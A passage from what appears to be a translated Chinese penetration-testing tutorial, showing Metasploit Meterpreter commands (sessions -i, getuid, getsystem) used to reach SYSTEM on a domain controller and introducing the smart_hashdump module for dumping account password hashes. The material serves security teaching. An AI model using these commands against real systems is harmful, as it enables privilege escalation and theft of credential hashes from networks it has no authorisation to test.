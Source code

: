 好吧，让我们看看这次我们得到了什么！打开我们的 MeterMeter 会话，看看会发生什么。要打开会话，请执行以下操作：

*   `sessions -i 2`：`-i`与编号的会话交互
*   `getuid`：这表明我们是以`fflintstone`的身份运行的

这只是为了好玩，因为上次我们运行它时它不起作用。

*   `getsystem`：答对了！我们赢了！当我们重新运行`getuid`时，我们看到我们现在是系统。是的，站起来跳你的快乐舞蹈：你现在有了系统级的特权！这是完全正确的：

![](img/47855e4d-9bf9-4358-a17e-969ec44e82cd.png)

因此，我们发现问题一直是 UAC，我们没有能力绕过通常出现在屏幕上的提示。即使使用管理员级别的访问，UAC 提示符也阻止了我们完全破坏机器的尝试。

所以，让我们洗劫这个系统，收集我们的战利品。作为域控制器，它持有王国的钥匙。在渗透测试中，一旦被洗劫一空，游戏就结束了。在现实世界中，一旦完成，你的网络就完蛋了；如果不完全重建整个网络结构，您将永远无法绝对确保攻击者被完全锁定。为此，我们将使用`post`模块收集所有用户帐户及其哈希。为此，我们将使用`post/windows/gather/smart_hashdump`模块。

本模块的信息如下：

```
    msf post(smart_hashdump) > info

    Name: Windows Gather Local and Domain Controller Account Password Hashes
    Module: post/windows/gather/smart_hashdump
    Platform: Windows
    Arch: 
    Rank: Normal

    Provided by:
    Carlos Perez <carlos_perez@darkoperator.com>

    Basic options:
    Name  Current Setting Required Description
    ----  --------------- -------- -----------
    GETSYSTEM false   no  Attempt to get SYSTEM privilege on the target host.
    SESSION      yes  The session to run this module on.

    Description:
    This will dump local accounts from the SAM Database. If the target 
    host is a Domain Controller, it will dump the Domain Account 
    Database using the proper technique depending on privilege level, OS 
    and role of the host.

```
